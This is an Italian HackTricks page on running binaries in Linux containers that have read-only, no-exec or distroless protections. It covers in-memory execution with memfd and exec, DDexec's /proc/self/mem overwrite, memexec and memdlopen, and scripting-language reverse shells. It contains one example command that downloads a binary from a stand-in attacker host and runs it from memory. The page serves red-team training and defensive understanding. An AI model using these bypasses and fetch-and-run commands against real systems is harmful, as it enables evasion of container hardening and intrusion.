 # Bypass delle protezioni del file system: sola lettura / no-exec / Distroless

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato alla **carriera dell'hacking** e vuoi hackerare l'inviolabile - **stiamo assumendo!** (_richiesta competenza scritta e parlata in polacco_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Nei seguenti video puoi trovare le tecniche menzionate in questa pagina spiegate più approfonditamente:

* [**DEF CON 31 - Esplorazione della manipolazione della memoria Linux per furtività ed evasione**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusioni furtive con DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scenario di sola lettura / no-exec

È sempre più comune trovare macchine Linux montate con **protezione del file system in sola lettura (ro)**, specialmente nei container. Questo perché eseguire un container con file system in sola lettura è semplice come impostare **`readOnlyRootFilesystem: true`** nel `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tuttavia, anche se il file system è montato come ro, **`/dev/shm`** sarà comunque scrivibile, quindi è falso che non possiamo scrivere nulla sul disco. Tuttavia, questa cartella sarà **montata con protezione no-exec**, quindi se scarichi un binario qui **non sarai in grado di eseguirlo**.

{% hint style="warning" %}
Dal punto di vista di un red team, questo rende **complicato scaricare ed eseguire** binari che non sono già nel sistema (come backdoor o enumerator come `kubectl`).
{% endhint %}

## Bypass più semplice: Script

Nota che ho menzionato binari, puoi **eseguire qualsiasi script** purché l'interprete sia presente nella macchina, come uno **script shell** se è presente `sh` o uno **script python** se è installato `python`.

Tuttavia, questo non è sufficiente per eseguire la tua backdoor binaria o altri strumenti binari che potresti aver bisogno di eseguire.

## Bypass di memoria

Se vuoi eseguire un binario ma il file system non lo permette, il modo migliore per farlo è **eseguirlo dalla memoria**, poiché le **protezioni non si applicano lì**.

### Bypass syscall FD + exec

Se hai alcuni potenti motori di script all'interno della macchina, come **Python**, **Perl**, o **Ruby** potresti scaricare il binario da eseguire dalla memoria, memorizzarlo in un descrittore di file di memoria (`create_memfd` syscall), che non sarà protetto da tali protezioni e quindi chiamare una **syscall `exec`** indicando il **fd come file da eseguire**.

Per fare ciò puoi facilmente utilizzare il progetto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Puoi passargli un binario e genererà uno script nella lingua indicata con il **binario compresso e codificato in b64** con le istruzioni per **decodificarlo e decomprimerlo** in un **fd** creato chiamando la syscall `create_memfd` e una chiamata alla syscall **exec** per eseguirlo.

{% hint style="warning" %}
Questo non funziona in altri linguaggi di scripting come PHP o Node perché non hanno un **modo predefinito per chiamare le syscall grezze** da uno script, quindi non è possibile chiamare `create_memfd` per creare il **fd di memoria** per memorizzare il binario.

Inoltre, creare un **fd regolare** con un file in `/dev/shm` non funzionerà, poiché non ti sarà consentito eseguirlo a causa della **protezione no-exec** che si applicherà.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) è una tecnica che ti consente di **modificare la memoria del tuo stesso processo** sovrascrivendo il suo **`/proc/self/mem`**.

Pertanto, **controllando il codice assembly** che viene eseguito dal processo, puoi scrivere uno **shellcode** e "mutare" il processo per **eseguire qualsiasi codice arbitrario**.

{% hint style="success" %}
**DDexec / EverythingExec** ti permetterà di caricare ed **eseguire** il tuo **proprio shellcode** o **qualsiasi binario** dalla **memoria**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Per ulteriori informazioni su questa tecnica, controlla il Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) è il passo successivo naturale di DDexec. Si tratta di un **shellcode demonizzato di DDexec**, quindi ogni volta che si desidera **eseguire un binario diverso** non è necessario riavviare DDexec, è sufficiente eseguire il shellcode memexec tramite la tecnica DDexec e poi **comunicare con questo demone per passare nuovi binari da caricare ed eseguire**.

È possibile trovare un esempio su come utilizzare **memexec per eseguire binari da un reverse shell PHP** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con uno scopo simile a DDexec, la tecnica [**memdlopen**](https://github.com/arget13/memdlopen) consente un **modo più semplice di caricare binari** in memoria per eseguirli successivamente. Potrebbe persino consentire di caricare binari con dipendenze.

## Bypass Distroless

### Cos'è Distroless

I container Distroless contengono solo i **componenti minimi necessari per eseguire un'applicazione o un servizio specifico**, come librerie e dipendenze di runtime, ma escludono componenti più grandi come un gestore di pacchetti, shell o utility di sistema.

L'obiettivo dei container Distroless è **ridurre la superficie di attacco dei container eliminando componenti non necessari** e riducendo al minimo il numero di vulnerabilità che possono essere sfruttate.

### Reverse Shell

In un container Distroless potresti **non trovare nemmeno `sh` o `bash`** per ottenere una shell regolare. Non troverai nemmeno binari come `ls`, `whoami`, `id`... tutto ciò che di solito si esegue in un sistema.

{% hint style="warning" %}
Pertanto, **non** sarà possibile ottenere una **shell inversa** o **enumerare** il sistema come fai di solito.
{% endhint %}

Tuttavia, se il container compromesso sta eseguendo ad esempio un'applicazione web Flask, allora Python è installato e quindi puoi ottenere una **shell inversa Python**. Se sta eseguendo Node, puoi ottenere una shell inversa di Node, e lo stesso vale per la maggior parte dei **linguaggi di scripting**.

{% hint style="success" %}
Utilizzando il linguaggio di scripting potresti **enumerare il sistema** sfruttando le capacità del linguaggio.
{% endhint %}

Se non ci sono **protezioni `read-only/no-exec`** potresti abusare della tua shell inversa per **scrivere nel file system i tuoi binari** ed **eseguirli**.

{% hint style="success" %}
Tuttavia, in questo tipo di container queste protezioni di solito esistono, ma potresti utilizzare le **tecniche di esecuzione in memoria precedenti per aggirarle**.
{% endhint %}

Puoi trovare degli **esempi** su come **sfruttare alcune vulnerabilità RCE** per ottenere **shell inverse di linguaggi di scripting** ed eseguire binari dalla memoria in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nell'hacking** e vuoi hackerare l'impossibile - **stiamo assumendo!** (_richiesta competenza in polacco scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
